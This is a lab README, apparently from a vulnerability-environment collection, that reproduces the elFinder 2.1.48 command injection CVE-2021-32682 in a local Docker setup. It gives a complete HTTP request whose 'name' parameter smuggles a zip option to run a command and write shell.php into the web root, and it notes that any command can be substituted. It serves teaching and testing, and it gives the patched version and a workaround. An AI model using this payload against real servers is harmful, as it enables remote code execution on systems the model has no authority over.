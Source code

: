 # elFinder ZIP Arguments Injection Leads to Commands Injection (CVE-2021-32682)

[中文版本(Chinese version)](README.zh-cn.md)

elFinder is an open-source file manager for web, written in JavaScript using jQuery UI.

There is a arguments injection vulnerability found in the elFinder 2.1.48 and before. This vulnerability can allow an attacker to execute arbitrary commands on the server hosting the elFinder PHP connector, even with minimal configuration. The issues were patched in version 2.1.59. As a workaround, ensure the connector is not exposed without authentication.

References:

- <https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities>
- <https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt>
- <https://xz.aliyun.com/t/10739>

## Vulnerability Environment

Execute following command to start a elFinder 2.1.48:

```
docker-compose up -d
```

After the server is started, you can see the main page of elFinder at `http://your-ip:8080`.

## Vulnerability Reproduce

Firstly, you should prepare 2 files for this vulnerability flow.

Create a plain text file named `1.txt`:

![](1.png)

Archive this file in the right-click menu to ZIP format, and modify this archived file name to `2.zip`:

![](2.png)

`1.txt` and `2.zip` are ready here:

![](3.png)

Then, send the following request to execute arbitrary commands:

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


```

In this request, you can see 3 important parameters:

- `name`, its value is equal to `-TvTT=id>shell.php # a.zip`, you can modify the `id>shell.php` to arbitrary commands
- `targets[0]`, its value is equal to `l1_MS50eHQ`. `l1` means the first storage volume, `MS50eHQ` is the base64 encoded string of `1.txt`
- `targets[1]`, its value is equal to `l1_Mi56aXA`. `l1` means the first storage volume, `Mi56aXA` is the base64 encoded string of `2.zip`

Although this request responeds to an error message, our command has been executed and `shell.php` has been written to `http://your-ip:8080/files/shell.php`:

![](4.png)
